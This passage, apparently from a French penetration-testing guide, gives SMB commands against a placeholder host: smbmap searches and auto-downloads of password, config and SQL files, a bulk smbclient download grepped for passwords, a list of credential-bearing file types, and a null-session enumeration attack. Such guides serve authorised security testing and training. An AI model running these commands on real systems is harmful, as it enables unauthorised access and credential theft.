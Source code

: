 ```bash
#         ADMIN$          NO ACCESS
#         C$              NO ACCESS  
#         IPC$            NO ACCESS
#         Share           READ, WRITE
```

## 🕵️ Phase 5 : Recherche de Fichiers Sensibles

### Recherche Automatisée
```bash
# 1. Avec smbmap - patterns de fichiers
smbmap -H target.com -R --pattern "*.config"
smbmap -H target.com -R --pattern "password*"
smbmap -H target.com -R --pattern "*.sql"
smbmap -H target.com -R --pattern "*.txt"

# 2. Download automatique de fichiers sensibles
smbmap -H target.com -R -A "password.*"  # Auto-download
smbmap -H target.com -R -A "*.config"

# 3. Recherche dans contenu de fichiers (si accès lecture)
smbclient //target.com/share -N -c "recurse ON; prompt OFF; mget *"
grep -r "password" downloaded_files/
```

### Fichiers à Rechercher Prioritairement
```bash
# Fichiers de configuration
*.config, *.conf, *.cfg
web.config, app.config

# Fichiers de credentials  
*.txt (notes.txt, passwords.txt)
*.doc, *.docx (documentation)
*.xls, *.xlsx (inventaires)

# Fichiers de sauvegarde
*.bak, *.backup, *.old
*.sql (dumps de base)

# Scripts et code source
*.bat, *.ps1, *.vbs
*.php, *.asp, *.jsp
```

## 🎯 Techniques Avancées

### Null Session Attack
```bash
# 1. Connexion null session
net use \\target.com\ipc$ "" /user:""

# 2. Énumération après null session
enum -S target.com        # Partages
enum -U target.com        # Utilisateurs  
enum -P target.com        # Politique mots de passe

# 3. Nettoyage
net use \\target.com\ipc$ /delete
```
